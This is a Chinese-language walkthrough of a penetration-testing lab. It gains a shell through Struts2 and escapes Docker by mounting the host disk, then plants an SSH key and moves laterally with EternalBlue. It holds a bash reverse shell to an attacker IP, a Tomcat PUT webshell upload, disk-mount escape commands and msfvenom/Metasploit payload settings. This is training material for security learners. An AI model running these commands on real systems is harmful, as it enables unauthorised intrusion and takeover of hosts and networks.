# 信息探测
arp扫描

ip:192.168.111.131  

使用nmap扫描

开放了三个web端口
分别对应了struct,tomcat上传漏洞,phpmyadmin漏洞

---

使用struct2漏洞扫描,执行反弹shell命令
```
bash -i >& /dev/tcp/192.168.111.128/4444 0>&1
```
获得权限后能发现处于docker容器中

尝试docker逃逸
上传逃逸检测脚本cdk
由于其能出网,在kali开启python web,使用wget下载,并给执行权限

```
./cdk_linux_amd64 evaluate --full
```
执行结果没有discovery

---

看一下tomcat容器
抓包改请求方式为put(路径后要加/)
```
PUT /shell.jsp/ HTTP/1.1
Host: target:8080
Content-Type: application/x-www-form-urlencoded
Content-Length: 200

(冰蝎码)
```

再次上传检测脚本,发现能够挂载主机目录

使用命令
```
./cdk_linux_amd64 run mount-disk会将主机的目录挂载在/tmp目录下的cdk_xx文件中
```
或者使用命令
```
# 直接挂载宿主机根文件系统
mkdir /tmp/host_root
mount /dev/sda1 /tmp/host_root  # 或 /dev/vda1, /dev/xvda1 等

# 如果找不到磁盘设备，可以尝试枚举
fdisk -l 2>/dev/null || lsblk 2>/dev/null
```

接下来可以采用计划任务,或者写ssh来获得权限
这里用ssh的方法,将自己的公钥写入/tmp/root/.ssh/authorized_keys
写入后使用自己的私钥连接
这里使用mobaxterm(kali连不上)

连接成功



# 横向移动
此时我们已经有了驻足点web,现在继续攻陷内网机器
这里可以使用nps搭建socks代理端口2000


使用fscan扫描内网
扫描结果:


确定130为DC
扫描发现445端口开放,同时是win7,尝试用msf的ms17010模块

上线msf
```
msfvenom -p linux/x64/meterpreter/reverse_tcp lhost=192.168.111.128 lport=4567 -f elf > payload.elf
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set lhost 192.168.111.128
set lport 4567

```
```
set Proxies socks5:127.0.0.1:2000
use  exploit/windows/smb/ms17_010_eternalblue
set payload windows/x64/meterpreter/bind_tcp
set rhost 192.168.183.4

```
这里漏洞利用成功但是无法建立会话
原来这里忘了设置监听模块


